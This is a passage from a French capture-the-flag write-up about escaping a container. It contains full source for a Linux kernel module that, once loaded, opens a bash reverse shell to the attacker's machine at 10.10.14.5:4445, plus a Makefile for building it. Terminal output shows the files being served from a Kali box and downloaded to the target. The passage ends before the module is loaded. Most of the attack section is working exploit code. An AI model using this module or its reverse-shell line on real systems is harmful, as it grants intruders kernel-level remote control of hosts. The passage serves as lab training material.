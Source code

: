 Avec un peu de recherche, je tombe sur ce poste: https://blog.nody.cc/posts/container-breakouts-part2/

On créé donc les deux fichiers présentés dans le post:
```c
//reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.5/4445 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
```Makefile
#Makefile
obj-m +=reverse-shell.o

all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

Puis on les télécharge sur la cible:

```
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```
wget 10.10.14.5/reverse-shell.c
--2023-09-09 17:13:13--  http://10.10.14.5/reverse-shell.c
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 616 [text/plain]
Saving to: ‘reverse-shell.c’

     0K                                                       100% 50.2M=0s

2023-09-09 17:13:13 (50.2 MB/s) - ‘reverse-shell.c’ saved [616/616]
```
```
wget 10.10.14.5/Makefile
connected.
HTTP request sent, awaiting response... --2023-09-09 17:13:30--  http://10.10.14.5/Makefile
Connecting to 10.10.14.5:80... 200 OK
Length: 148 [application/octet-stream]
Saving to: ‘Makefile’

     0K                                                       100% 18.1M=0s
```